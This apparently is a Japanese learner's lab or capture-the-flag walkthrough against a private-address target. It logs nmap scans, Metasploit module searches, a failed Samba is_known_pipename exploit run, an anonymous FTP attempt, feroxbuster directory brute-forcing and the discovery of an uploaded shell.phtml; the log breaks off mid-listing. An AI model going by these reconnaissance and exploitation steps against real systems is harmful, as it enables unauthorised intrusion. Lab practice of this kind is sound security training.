


```bash ┌──(rkametani㉿rkametani-1-kalija)-[~]
└─$ nmap 10.48.179.41 -sV
Starting Nmap 7.99 ( https://nmap.org ) at 2026-04-24 10:02 +0900
Nmap scan report for 10.48.179.41
Host is up (0.13s latency).
Not shown: 994 closed tcp ports (reset)
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.5
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
139/tcp open netbios-ssn Samba smbd 4
445/tcp open netbios-ssn Samba smbd 4
3128/tcp open http-proxy Squid http proxy 4.10
3333/tcp open http Apache httpd 2.4.41 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.74 seconds
┌──(rkametani㉿rkametani-1-kalija)-[~]
nmapを実施した
```bash
┌──(rkametani㉿rkametani-1-kalija)-[~]
└─$ msfconsole -q
msf >
msfconsoleを起動した
msf > search vsftpd 3
Matching Modules
================
# Name Disclosure Date Rank Check Description
- ---- --------------- ---- ----- -----------
0 auxiliary/dos/ftp/vsftpd_232 2011-02-03 normal Yes VSFTPD 2.3.2 Denial of Service
1 exploit/unix/ftp/vsftpd_234_backdoor 2011-07-03 excellent Yes VSFTPD 2.3.4 Backdoor Command Execution
Interact with a module by name or index. For example info 1, use 1 or use exploit/unix/ftp/vsftpd_234_backdoor
msf > search openssh 8.2
[-] No results from search
バージョン情報と照らし合わせながらモジュールを探す
msf > search samba 4
Matching Modules
================
# Name Disclosure Date Rank Check Description
- ---- --------------- ---- ----- -----------
0 exploit/unix/webapp/citrix_access_gateway_exec 2010-12-21 excellent Yes Citrix Access Gateway Command Execution
1 exploit/windows/license/calicclnt_getconfig 2005-03-02 average No Computer Associates License Client GETCONFIG Overflow
2 \_ target: Automatic . . . .
3 \_ target: Windows 2000 English . . . .
4 \_ target: Windows XP English SP0-1 . . . .
5 \_ target: Windows XP English SP2 . . . .
6 \_ target: Windows 2003 English SP0 . . . .
7 exploit/unix/misc/distcc_exec 2002-02-01 excellent Yes DistCC Daemon Command Execution
8 exploit/windows/smb/group_policy_startup 2015-01-26 manual No Group Policy Script Execution From Shared Resource
9 \_ target: Windows x86 . . . .
10 \_ target: Windows x64 . . . .
11 exploit/windows/fileformat/ms14_060_sandworm 2014-10-14 excellent No MS14-060 Microsoft Windows OLE Package Manager Code Execution
12 exploit/unix/http/quest_kace_systems_management_rce 2018-05-31 excellent Yes Quest KACE Systems Management Command Injection
13 exploit/multi/samba/usermap_script 2007-05-14 excellent No Samba "username map script" Command Execution
14 exploit/multi/samba/nttrans 2003-04-07 average No Samba 2.2.2 - 2.2.6 nttrans Buffer Overflow
15 exploit/linux/samba/setinfopolicy_heap 2012-04-10 normal Yes Samba SetInformationPolicy AuditEventsInfo Heap Overflow
16 \_ target: 2:3.5.11~dfsg-1ubuntu2 on Ubuntu Server 11.10 . . . .
17 \_ target: 2:3.5.8~dfsg-1ubuntu2 on Ubuntu Server 11.10 . . . .
18 \_ target: 2:3.5.8~dfsg-1ubuntu2 on Ubuntu Server 11.04 . . . .
19 \_ target: 2:3.5.4~dfsg-1ubuntu8 on Ubuntu Server 10.10 . . . .
20 \_ target: 2:3.5.6~dfsg-3squeeze6 on Debian Squeeze . . . .
21 \_ target: 3.5.10-0.107.el5 on CentOS 5 . . . .
22 auxiliary/admin/smb/samba_symlink_traversal . normal No Samba Symlink Directory Traversal
23 auxiliary/scanner/smb/smb_uninit_cred . normal Yes Samba _netr_ServerPasswordSet Uninitialized Credential State
24 exploit/linux/samba/chain_reply 2010-06-16 good No Samba chain_reply Memory Corruption (Linux x86)
25 \_ target: Linux (Debian5 3.2.5-4lenny6) . . . .
26 \_ target: Debugging Target . . . .
27 exploit/linux/samba/is_known_pipename 2017-03-24 excellent Yes Samba is_known_pipename() Arbitrary Module Load
28 \_ target: Automatic (Interact) . . . .
29 \_ target: Automatic (Command) . . . .
30 \_ target: Linux x86 . . . .
31 \_ target: Linux x86_64 . . . .
32 \_ target: Linux ARM (LE) . . . .
33 \_ target: Linux ARM64 . . . .
34 \_ target: Linux MIPS . . . .
35 \_ target: Linux MIPSLE . . . .
36 \_ target: Linux MIPS64 . . . .
37 \_ target: Linux MIPS64LE . . . .
38 \_ target: Linux PPC . . . .
39 \_ target: Linux PPC64 . . . .
40 \_ target: Linux PPC64 (LE) . . . .
41 \_ target: Linux SPARC . . . .
42 \_ target: Linux SPARC64 . . . .
43 \_ target: Linux s390x . . . .
44 auxiliary/dos/samba/lsa_addprivs_heap . normal No Samba lsa_io_privilege_set Heap Overflow
45 auxiliary/dos/samba/lsa_transnames_heap . normal No Samba lsa_io_trans_names Heap Overflow
46 exploit/linux/samba/lsa_transnames_heap 2007-05-14 good Yes Samba lsa_io_trans_names Heap Overflow
47 \_ target: Linux vsyscall . . . .
48 \_ target: Linux Heap Brute Force (Debian/Ubuntu) . . . .
49 \_ target: Linux Heap Brute Force (Gentoo) . . . .
50 \_ target: Linux Heap Brute Force (Mandriva) . . . .
51 \_ target: Linux Heap Brute Force (RHEL/CentOS) . . . .
52 \_ target: Linux Heap Brute Force (SUSE) . . . .
53 \_ target: Linux Heap Brute Force (Slackware) . . . .
54 \_ target: Linux Heap Brute Force (OpenWRT MIPS) . . . .
55 \_ target: DEBUG . . . .
56 exploit/osx/samba/lsa_transnames_heap 2007-05-14 average No Samba lsa_io_trans_names Heap Overflow
57 \_ target: Automatic . . . .
58 \_ target: Mac OS X 10.4.x x86 Samba 3.0.10 . . . .
59 \_ target: Mac OS X 10.4.x PPC Samba 3.0.10 . . . .
60 \_ target: DEBUG . . . .
61 exploit/solaris/samba/lsa_transnames_heap 2007-05-14 average No Samba lsa_io_trans_names Heap Overflow
62 \_ target: Solaris 8/9/10 x86 Samba 3.0.21-3.0.24 . . . .
63 \_ target: Solaris 8/9/10 SPARC Samba 3.0.21-3.0.24 . . . .
64 \_ target: DEBUG . . . .
65 auxiliary/dos/samba/read_nttrans_ea_list . normal No Samba read_nttrans_ea_list Integer Overflow
66 exploit/freebsd/samba/trans2open 2003-04-07 great No Samba trans2open Overflow (*BSD x86)
67 exploit/linux/samba/trans2open 2003-04-07 great No Samba trans2open Overflow (Linux x86)
68 exploit/osx/samba/trans2open 2003-04-07 great No Samba trans2open Overflow (Mac OS X PPC)
69 exploit/solaris/samba/trans2open 2003-04-07 great No Samba trans2open Overflow (Solaris SPARC)
70 \_ target: Samba 2.2.x - Solaris 9 (sun4u) - Bruteforce . . . .
71 \_ target: Samba 2.2.x - Solaris 7/8 (sun4u) - Bruteforce . . . .
72 exploit/windows/http/sambar6_search_results 2003-06-21 normal Yes Sambar 6 Search Results Buffer Overflow
73 \_ target: Automatic . . . .
74 \_ target: Windows 2000 . . . .
75 \_ target: Windows XP . . . .
Interact with a module by name or index. For example info 75, use 75 or use exploit/windows/http/sambar6_search_results
After interacting with a module you can manually set a TARGET with set TARGET 'Windows XP'
msf >
ここでsearch samba 4という検索を実行したが出力結果が多すぎるため困った
msf > search samba rank:excellent
Matching Modules
================
# Name Disclosure Date Rank Check Description
- ---- --------------- ---- ----- -----------
0 exploit/unix/webapp/citrix_access_gateway_exec 2010-12-21 excellent Yes Citrix Access Gateway Command Execution
1 exploit/unix/misc/distcc_exec 2002-02-01 excellent Yes DistCC Daemon Command Execution
2 exploit/windows/fileformat/ms14_060_sandworm 2014-10-14 excellent No MS14-060 Microsoft Windows OLE Package Manager Code Execution
3 exploit/unix/http/quest_kace_systems_management_rce 2018-05-31 excellent Yes Quest KACE Systems Management Command Injection
4 exploit/multi/samba/usermap_script 2007-05-14 excellent No Samba "username map script" Command Execution
5 exploit/linux/samba/is_known_pipename 2017-03-24 excellent Yes Samba is_known_pipename() Arbitrary Module Load
6 \_ target: Automatic (Interact) . . . .
7 \_ target: Automatic (Command) . . . .
8 \_ target: Linux x86 . . . .
9 \_ target: Linux x86_64 . . . .
10 \_ target: Linux ARM (LE) . . . .
11 \_ target: Linux ARM64 . . . .
12 \_ target: Linux MIPS . . . .
13 \_ target: Linux MIPSLE . . . .
14 \_ target: Linux MIPS64 . . . .
15 \_ target: Linux MIPS64LE . . . .
16 \_ target: Linux PPC . . . .
17 \_ target: Linux PPC64 . . . .
18 \_ target: Linux PPC64 (LE) . . . .
19 \_ target: Linux SPARC . . . .
20 \_ target: Linux SPARC64 . . . .
21 \_ target: Linux s390x . . . .
Interact with a module by name or index. For example info 21, use 21 or use exploit/linux/samba/is_known_pipename
After interacting with a module you can manually set a TARGET with set TARGET 'Linux s390x'
msf >
そこでmoduleのrankuをexcellentに絞って再度検索をかけた
msf > info exploit/unix/webapp/citrix_access_gateway_exec
[-] Error while running command info: uninitialized constant HTTP
Call stack:
/usr/share/metasploit-framework/vendor/bundle/ruby/3.3.0/gems/http-cookie-1.1.4/lib/http/cookie_jar/hash_store.rb:3:in `<top (required)>'
/usr/lib/ruby/3.3.0/bundled_gems.rb:69:in `require'
/usr/lib/ruby/3.3.0/bundled_gems.rb:69:in `block (2 levels) in replace_require'
/usr/share/metasploit-framework/vendor/bundle/ruby/3.3.0/gems/bootsnap-1.23.0/lib/bootsnap/load_path_cache/core_ext/kernel_require.rb:33:in `require'
/usr/share/metasploit-framework/vendor/bundle/ruby/3.3.0/gems/zeitwerk-2.7.5/lib/zeitwerk/core_ext/kernel.rb:34:in `require'
/usr/share/metasploit-framework/lib/msf/core/exploit/remote/http/http_cookie_jar.rb:2:in `<top (required)>'
/usr/lib/ruby/3.3.0/bundled_gems.rb:69:in `require'
/usr/lib/ruby/3.3.0/bundled_gems.rb:69:in `block (2 levels) in replace_require'
/usr/share/metasploit-framework/vendor/bundle/ruby/3.3.0/gems/bootsnap-1.23.0/lib/bootsnap/load_path_cache/core_ext/kernel_require.rb:33:in `require'
/usr/share/metasploit-framework/vendor/bundle/ruby/3.3.0/gems/zeitwerk-2.7.5/lib/zeitwerk/core_ext/kernel.rb:26:in `require'
/usr/share/metasploit-framework/lib/msf/core/exploit/remote/http_client.rb:99:in `initialize'
/usr/share/metasploit-framework/modules/exploits/unix/webapp/citrix_access_gateway_exec.rb:12:in `initialize'
/usr/share/metasploit-framework/lib/msf/core/module_set.rb:37:in `new'
/usr/share/metasploit-framework/lib/msf/core/module_set.rb:37:in `create'
/usr/share/metasploit-framework/lib/msf/core/module_manager.rb:74:in `create'
/usr/share/metasploit-framework/lib/msf/ui/console/command_dispatcher/modules.rb:208:in `block in cmd_info'
/usr/share/metasploit-framework/lib/msf/ui/console/command_dispatcher/modules.rb:189:in `each'
/usr/share/metasploit-framework/lib/msf/ui/console/command_dispatcher/modules.rb:189:in `cmd_info'
/usr/share/metasploit-framework/lib/rex/ui/text/dispatcher_shell.rb:582:in `run_command'
/usr/share/metasploit-framework/lib/rex/ui/text/dispatcher_shell.rb:531:in `block in run_single'
/usr/share/metasploit-framework/lib/rex/ui/text/dispatcher_shell.rb:525:in `each'
/usr/share/metasploit-framework/lib/rex/ui/text/dispatcher_shell.rb:525:in `run_single'
/usr/share/metasploit-framework/lib/rex/ui/text/shell.rb:165:in `block in run'
/usr/share/metasploit-framework/lib/rex/ui/text/shell.rb:309:in `block in with_history_manager_context'
/usr/share/metasploit-framework/lib/rex/ui/text/shell/history_manager.rb:37:in `with_context'
/usr/share/metasploit-framework/lib/rex/ui/text/shell.rb:306:in `with_history_manager_context'
/usr/share/metasploit-framework/lib/rex/ui/text/shell.rb:133:in `run'
/usr/share/metasploit-framework/lib/metasploit/framework/command/console.rb:54:in `start'
/usr/share/metasploit-framework/lib/metasploit/framework/command/base.rb:82:in `start'
/usr/bin/msfconsole:23:in `<main>'
msf >
1つのモジュールについての情報を取ろうとしたところエラーが発生した
再起動やデータベースの初期化を実施する
msf > exit
┌──(rkametani㉿rkametani-1-kalija)-[~]
└─$ msfdb reinit
[-] Error: /usr/bin/msfdb must be run as root
┌──(rkametani㉿rkametani-1-kalija)-[~]
└─$ sudo msfdb reinit
[sudo] rkametani のパスワード:
[+] Starting database
[+] Deleting configuration file /usr/share/metasploit-framework/config/database.yml
[+] Stopping database
[+] Starting database
[+] Creating database user 'msf'
新しいロールのためのパスワード:
もう一度入力してください：
[+] Creating databases 'msf'
[+] Creating databases 'msf_test'
[+] Creating configuration file '/usr/share/metasploit-framework/config/database.yml'
[+] Creating initial database schema
┌──(rkametani㉿rkametani-1-kalija)-[~]
└─$ sudo apt update
取得:1 https://cli.github.com/packages stable InRelease [3,917 B]
ヒット:2 https://dl.google.com/linux/chrome-stable/deb stable InRelease
ヒット:3 https://ftp.jaist.ac.jp/pub/Linux/kali kali-rolling InRelease
3,917 B を 1秒 で取得しました (4,319 B/s)
アップグレードできるパッケージが 15 個あります。表示するには 'apt list --upgradable' を実行してください。
┌──(rkametani㉿rkametani-1-kalija)-[~]
└─$ sudo apt upgrade -y
以下のパッケージが自動でインストールされましたが、もう必要とされていません:
libicu76 libsimdutf29
これを削除するには 'sudo apt autoremove' を利用してください。
Not upgrading:
gstreamer1.0-plugins-bad libgtk-4-1 libmagickcore-7.q16-10-extra libpipewire-0.3-modules pipewire
libadwaita-1-0 libgtk-4-bin libonnxruntime-providers libspa-0.2-bluetooth pipewire-bin
libgstreamer-plugins-bad1.0-0 libgtkmm-4.0-0 libpipewire-0.3-0t64 libspa-0.2-modules pipewire-pulse
Summary:
Upgrading: 0, Installing: 0, Removing: 0, Not Upgrading: 15
┌──(rkametani㉿rkametani-1-kalija)-[~]
└─$ sudo apt autoremove
REMOVING:
libicu76 libsimdutf29
Summary:
Upgrading: 0, Installing: 0, Removing: 2, Not Upgrading: 15
Freed space: 38.9 MB
Continue? [Y/n] y
(データベースを読み込んでいます ... 現在 410520 個のファイルとディレクトリがインストールされています。)
libicu76:amd64 (76.1-4+b1) を削除しています ...
libsimdutf29:amd64 (7.7.1-3) を削除しています ...
libc-bin (2.42-13) のトリガを処理しています ...
┌──(rkametani㉿rkametani-1-kalija)-[~]
└─$ sudo apt install metasploit-framework
metasploit-framework はすでに最新バージョン (6.4.126-0kali1) です。
metasploit-framework は手動でインストールしたと設定されました。
Summary:
Upgrading: 0, Installing: 0, Removing: 0, Not Upgrading: 15
┌──(rkametani㉿rkametani-1-kalija)-[~]
└─$ msfconsole -q
msf >
再インストールなども含めて実施した
┌──(rkametani㉿rkametani-1-kalija)-[~]
└─$ msfconsole -q
msf > info exploit/unix/webapp/citrix_access_gateway_exec
[-] Error while running command info: uninitialized constant HTTP
Call stack:
/usr/share/metasploit-framework/vendor/bundle/ruby/3.3.0/gems/http-cookie-1.1.4/lib/http/cookie_jar/hash_store.rb:3:in `<top (required)>'
/usr/lib/ruby/3.3.0/bundled_gems.rb:69:in `require'
/usr/lib/ruby/3.3.0/bundled_gems.rb:69:in `block (2 levels) in replace_require'
/usr/share/metasploit-framework/vendor/bundle/ruby/3.3.0/gems/bootsnap-1.23.0/lib/bootsnap/load_path_cache/core_ext/kernel_require.rb:33:in `require'
/usr/share/metasploit-framework/vendor/bundle/ruby/3.3.0/gems/zeitwerk-2.7.5/lib/zeitwerk/core_ext/kernel.rb:34:in `require'
/usr/share/metasploit-framework/lib/msf/core/exploit/remote/http/http_cookie_jar.rb:2:in `<top (required)>'
/usr/lib/ruby/3.3.0/bundled_gems.rb:69:in `require'
/usr/lib/ruby/3.3.0/bundled_gems.rb:69:in `block (2 levels) in replace_require'
/usr/share/metasploit-framework/vendor/bundle/ruby/3.3.0/gems/bootsnap-1.23.0/lib/bootsnap/load_path_cache/core_ext/kernel_require.rb:33:in `require'
/usr/share/metasploit-framework/vendor/bundle/ruby/3.3.0/gems/zeitwerk-2.7.5/lib/zeitwerk/core_ext/kernel.rb:26:in `require'
/usr/share/metasploit-framework/lib/msf/core/exploit/remote/http_client.rb:99:in `initialize'
/usr/share/metasploit-framework/modules/exploits/unix/webapp/citrix_access_gateway_exec.rb:12:in `initialize'
/usr/share/metasploit-framework/lib/msf/core/module_set.rb:37:in `new'
/usr/share/metasploit-framework/lib/msf/core/module_set.rb:37:in `create'
/usr/share/metasploit-framework/lib/msf/core/module_manager.rb:74:in `create'
/usr/share/metasploit-framework/lib/msf/ui/console/command_dispatcher/modules.rb:208:in `block in cmd_info'
/usr/share/metasploit-framework/lib/msf/ui/console/command_dispatcher/modules.rb:189:in `each'
/usr/share/metasploit-framework/lib/msf/ui/console/command_dispatcher/modules.rb:189:in `cmd_info'
/usr/share/metasploit-framework/lib/rex/ui/text/dispatcher_shell.rb:582:in `run_command'
/usr/share/metasploit-framework/lib/rex/ui/text/dispatcher_shell.rb:531:in `block in run_single'
/usr/share/metasploit-framework/lib/rex/ui/text/dispatcher_shell.rb:525:in `each'
/usr/share/metasploit-framework/lib/rex/ui/text/dispatcher_shell.rb:525:in `run_single'
/usr/share/metasploit-framework/lib/rex/ui/text/shell.rb:165:in `block in run'
/usr/share/metasploit-framework/lib/rex/ui/text/shell.rb:309:in `block in with_history_manager_context'
/usr/share/metasploit-framework/lib/rex/ui/text/shell/history_manager.rb:37:in `with_context'
/usr/share/metasploit-framework/lib/rex/ui/text/shell.rb:306:in `with_history_manager_context'
/usr/share/metasploit-framework/lib/rex/ui/text/shell.rb:133:in `run'
/usr/share/metasploit-framework/lib/metasploit/framework/command/console.rb:54:in `start'
/usr/share/metasploit-framework/lib/metasploit/framework/command/base.rb:82:in `start'
/usr/bin/msfconsole:23:in `<main>'
msf >
再度infoを取ろうとしたが同様のエラーが出た
msf > search samba 4 rank:excellent
Matching Modules
================
# Name Disclosure Date Rank Check Description
- ---- --------------- ---- ----- -----------
0 exploit/unix/webapp/citrix_access_gateway_exec 2010-12-21 excellent Yes Citrix Access Gateway Command Execution
1 exploit/unix/misc/distcc_exec 2002-02-01 excellent Yes DistCC Daemon Command Execution
2 exploit/windows/fileformat/ms14_060_sandworm 2014-10-14 excellent No MS14-060 Microsoft Windows OLE Package Manager Code Execution
3 exploit/unix/http/quest_kace_systems_management_rce 2018-05-31 excellent Yes Quest KACE Systems Management Command Injection
4 exploit/multi/samba/usermap_script 2007-05-14 excellent No Samba "username map script" Command Execution
5 exploit/linux/samba/is_known_pipename 2017-03-24 excellent Yes Samba is_known_pipename() Arbitrary Module Load
6 \_ target: Automatic (Interact) . . . .
7 \_ target: Automatic (Command) . . . .
8 \_ target: Linux x86 . . . .
9 \_ target: Linux x86_64 . . . .
10 \_ target: Linux ARM (LE) . . . .
11 \_ target: Linux ARM64 . . . .
12 \_ target: Linux MIPS . . . .
13 \_ target: Linux MIPSLE . . . .
14 \_ target: Linux MIPS64 . . . .
15 \_ target: Linux MIPS64LE . . . .
16 \_ target: Linux PPC . . . .
17 \_ target: Linux PPC64 . . . .
18 \_ target: Linux PPC64 (LE) . . . .
19 \_ target: Linux SPARC . . . .
20 \_ target: Linux SPARC64 . . . .
21 \_ target: Linux s390x . . . .
Interact with a module by name or index. For example info 21, use 21 or use exploit/linux/samba/is_known_pipename
After interacting with a module you can manually set a TARGET with set TARGET 'Linux s390x'
msf >
改めてsearchの結果を見直すと
5行目のis_known_pipenameはさまざまなtargetに対応しており
また日付も比較的新しいため調べる優先度が高いものと思える
msf > info 5
Name: Samba is_known_pipename() Arbitrary Module Load
Module: exploit/linux/samba/is_known_pipename
Platform: Linux, Unix
Arch: cmd, x86, x64, armle, aarch64, mips, mipsle, mips64, mips64le, ppc, ppc64, ppc64le, sparc, sparc64, zarch
Privileged: Yes
License: Metasploit Framework License (BSD)
Rank: Excellent
Disclosed: 2017-03-24
Provided by:
steelo <knownsteelo@gmail.com>
hdm <x@hdm.io>
bcoles <bcoles@gmail.com>
Module side effects:
ioc-in-logs
Module stability:
crash-safe
Module reliability:
repeatable-session
Available targets:
Id Name
-- ----
=> 0 Automatic (Interact)
1 Automatic (Command)
2 Linux x86
3 Linux x86_64
4 Linux ARM (LE)
5 Linux ARM64
6 Linux MIPS
7 Linux MIPSLE
8 Linux MIPS64
9 Linux MIPS64LE
10 Linux PPC
11 Linux PPC64
12 Linux PPC64 (LE)
13 Linux SPARC
14 Linux SPARC64
15 Linux s390x
Check supported:
Yes
Basic options:
Name Current Setting Required Description
---- --------------- -------- -----------
RHOSTS yes The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-meta
sploit.html
RPORT 445 yes The SMB service port (TCP)
SMB_FOLDER no The directory to use within the writeable SMB share
SMB_SHARE_NAME no The name of the SMB share containing a writeable directory
Payload information:
Space: 9000
Description:
This module triggers an arbitrary shared library load vulnerability
in Samba versions 3.5.0 to 4.4.14, 4.5.10, and 4.6.4. This module
requires valid credentials, a writeable folder in an accessible share,
and knowledge of the server-side path of the writeable folder. In
some cases, anonymous access combined with common filesystem locations
can be used to automatically exploit this vulnerability.
References:
https://nvd.nist.gov/vuln/detail/CVE-2017-7494
https://www.samba.org/samba/security/CVE-2017-7494.html
https://attack.mitre.org/techniques/T1083/
https://attack.mitre.org/techniques/T1135/
https://attack.mitre.org/techniques/T1592/002/
https://attack.mitre.org/techniques/T1055/001/
View the full module info with the info -d command.
msf >
そこでinfo 5を実行したところエラーなしの情報を得られた
descriptionによるといくつかのsambaのバージョンに対応しており
共有フォルダに関する攻撃をできるようであった
msf exploit(linux/samba/is_known_pipename) > show options
Module options (exploit/linux/samba/is_known_pipename):
Name Current Setting Required Description
---- --------------- -------- -----------
RHOSTS 10.48.179.41 yes The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-met
asploit.html
RPORT 445 yes The SMB service port (TCP)
SMB_FOLDER no The directory to use within the writeable SMB share
SMB_SHARE_NAME no The name of the SMB share containing a writeable directory
Exploit target:
Id Name
-- ----
0 Automatic (Interact)
View the full module info with the info, or info -d command.
msf exploit(linux/samba/is_known_pipename) > run
[-] 10.48.179.41:445 - Exploit failed [no-access]: Rex::Proto::SMB::Exceptions::LoginError Login Failed: The server uses an unsupported SMB dialect
[*] Exploit completed, but no session was created.
msf exploit(linux/samba/is_known_pipename) >
失敗した
余談であるがmetasploitからsmbのバージョンが取れた。便利だね。
msf > use auxiliary/scanner/smb/smb_version
msf auxiliary(scanner/smb/smb_version) > set RHOSTS 10.48.149.41
RHOSTS => 10.48.149.41
msf auxiliary(scanner/smb/smb_version) > run
^C[*] 10.48.149.41 - Caught interrupt from the console...
[*] Auxiliary module execution completed
msf auxiliary(scanner/smb/smb_version) > set RHOST 10.48.179.41
RHOST => 10.48.179.41
msf auxiliary(scanner/smb/smb_version) > run
/usr/share/metasploit-framework/vendor/bundle/ruby/3.3.0/gems/recog-3.1.26/lib/recog/fingerprint/regexp_factory.rb:34: warning: nested repeat operator '+' and '?' was replaced with '*' in regular expression
[*] 10.48.179.41:445 - SMB Detected (versions:2, 3) (preferred dialect:SMB 3.1.1) (compression capabilities:) (encryption capabilities:AES-128-GCM) (signatures:optional) (guid:{312d7069-2d30-3834-2d31-37392d343100}) (authentication domain:IP-10-48-179-41)
[+] 10.48.179.41:445 - Host is running Version 6.1.0 (unknown OS)
[*] 10.48.179.41 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/smb/smb_version) >
少し迷子になってきたので再度nmapの結果に戻る
┌──(rkametani㉿rkametani-1-kalija)-[~]
└─$ nmap 10.48.179.41 -sV
Starting Nmap 7.99 ( https://nmap.org ) at 2026-04-24 10:59 +0900
Nmap scan report for 10.48.179.41
Host is up (0.13s latency).
Not shown: 994 closed tcp ports (reset)
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.5
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
139/tcp open netbios-ssn Samba smbd 4
445/tcp open netbios-ssn Samba smbd 4
3128/tcp open http-proxy Squid http proxy 4.10
3333/tcp open http Apache httpd 2.4.41 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.70 seconds
┌──(rkametani㉿rkametani-1-kalija)-[~]
3128番ポートと3333番ポートのサービスについてmoduleがないか探してみる
msf > search proxy 4.10
[-] No results from search
msf > search apache 2.4.41
[-] No results from search
msf >
バージョンにぴったりのモジュールは見つからず。
┌──(rkametani㉿rkametani-1-kalija)-[~]
└─$ ftp 10.48.179.41
Connected to 10.48.179.41.
220 (vsFTPd 3.0.5)
Name (10.48.179.41:rkametani): anonymous
331 Please specify the password.
Password:
530 Login incorrect.
ftp: Login failed
ftp> ftp
Already connected to 10.48.179.41, use close first.
ftp> ls
530 Please login with USER and PASS.
530 Please login with USER and PASS.
ftp: Can't bind for data connection: アドレスは既に使用中です
ftp> bye
221 Goodbye.
┌──(rkametani㉿rkametani-1-kalija)-[~]
└─$
ftpサービスが動いていたので空白パスワードでログインできないか試行したが失敗した
3333番ポートでapacheが動いているらしいのでディレクトリを探してみる
┌──(rkametani㉿rkametani-1-kalija)-[~]
└─$ feroxbuster -u http://10.48.179.41:3333
100件ほどヒットしたが多くはfontやcssやimageに関するディレクトリであった
怪しいものをいくつか挙げる
301 GET 9l 28w 330c http://10.48.179.41:3333/internal/uploads
301 GET 9l 28w 322c http://10.48.179.41:3333/internal
200 GET 1l 1w 688c http://10.48.179.41:3333/fonts/flaticon/backup.txt
いちばん気になるbackup.txtから見てみる
┌──(rkametani㉿rkametani-1-kalija)-[~]
└─$ curl http://10.48.179.41:3333/fonts/flaticon/backup.txt
eyIxIjp7IklEIjoxLCJuYW1lIjoiTXkgaWNvbnMgY29sbGVjdGlvbiIsImJvb2ttYXJrX2lkIjoiZHpvejQ5Z2pvNjAwMDAwMCIsImNyZWF0ZWQiOm51bGwsInVwZGF0ZWQiOjE1MzQ3MjkwODUsImFjdGl2ZSI6MSwic291cmNlIjoibG9jYWwiLCJvcmRlciI6MCwiY29sb3IiOiIwMDAwMDAiLCJzdGF0dXMiOjF9LCJkem96NDlnam82MDAwMDAwIjpbeyJpZCI6MTgyMzMwLCJ0ZWFtIjowLCJuYW1lIjoiZXhhbSIsImNvbG9yIjoiIzAwMDAwMCIsInByZW1pdW0iOjAsInNvcnQiOjJ9LHsiaWQiOjE4MjMxOSwidGVhbSI6MCwibmFtZSI6ImJsYWNrYm9hcmQiLCJjb2xvciI6IiMwMDAwMDAiLCJwcmVtaXVtIjowLCJzb3J0IjozfSx7ImlkIjoxODIzMjIsInRlYW0iOjAsIm5hbWUiOiJib29rcyIsImNvbG9yIjoiIzAwMDAwMCIsInByZW1pdW0iOjAsInNvcnQiOjR9LHsiaWQiOjE4MjMzNiwidGVhbSI6MCwibmFtZSI6InVuaXZlcnNpdHkiLCJjb2xvciI6IiMwMDAwMDAiLCJwcmVtaXVtIjowLCJzb3J0IjoxfV19
┌──(rkametani㉿rkametani-1-kalija)-[~]
└─$
サービスの認証キーかなあ
つぎにinternalを見に行く

ファイルを提出できるようだ
つぎにinternal/uploadsを見に行く

おそらく過去にアップロードされたであろうファイルを発見した
shell.phtmlというファイル名からなにかの実行ファイルであろうか
これをブラウザではなくcurlから見るにはなんてうったらいいんだろう
geminiに教えてもらった！
┌──(rkametani㉿rkametani-1-kalija)-[~]
└─$ curl http://10.48.179.41:3333/internal/uploads
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>301 Moved Permanently</title>
</head><body>
<h1>Moved Permanently</h1>
<p>The document has moved <a href="http://10.48.179.41:3333/internal/uploads/">here</a>.</p>
<hr>
<address>Apache/2.4.41 (Ubuntu) Server at 10.48.179.41 Port 3333</address>
</body></html>
┌──(rkametani㉿rkametani-1-kalija)-[~]
└─$
この場合にはリダイレクトの指示にしたがわずその案内画面を表示してしまっているため
末尾に/をつけるかリダイレクトを自動で追いかけるオプション-Lを使う
┌──(rkametani㉿rkametani-1-kalija)-[~]
└─$ curl http://10.48.179.41:3333/internal/uploads/
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<html>
<head>
<title>Index of /internal/uploads</title>
</head>
<body>
<h1>Index of /internal/uploads</h1>
<table>
<tr><th valign="top"><img src="/icons/blank.gif" alt="[ICO]"></th><th><a href="?C=N;O=D">Name</a></th><th><a href="?C=M;O=A">Last modified</a></th><th><a href="?C=S;O=A">Size</a></th><th><a href="?C=D;O=A">Description</a></th></tr>
<tr><th colspan="5"><hr></th></tr>
<tr><td valign="top"><img src="/icons/back.gif" alt="[PARENTDIR]"></td><td><a href="/internal/">Parent Directory</a></td><td> </td><td align="right"> - </td><td> </td></tr>
